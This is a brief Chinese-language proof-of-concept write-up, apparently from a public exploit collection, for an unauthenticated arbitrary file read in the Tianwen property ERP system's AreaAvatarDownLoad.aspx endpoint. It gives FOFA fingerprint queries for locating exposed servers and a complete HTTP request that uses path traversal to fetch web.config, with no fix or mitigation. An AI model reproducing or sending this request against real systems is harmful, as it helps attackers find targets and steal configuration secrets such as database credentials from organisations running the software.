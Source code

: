# 天问物业ERP系统AreaAvatarDownLoad.aspx任意文件读取漏洞

天问物业ERP系统` /HM/M_Main/InformationManage/AreaAvatarDownLoad.aspx `接口处存在任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```yaml
body="天问物业ERP系统" || body="国家版权局软著登字第1205328号" || body="/HM/M_Main/frame/sso.aspx"
```

## poc

```yaml
GET /HM/M_Main/InformationManage/AreaAvatarDownLoad.aspx?AreaAvatar=../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407222335701.png)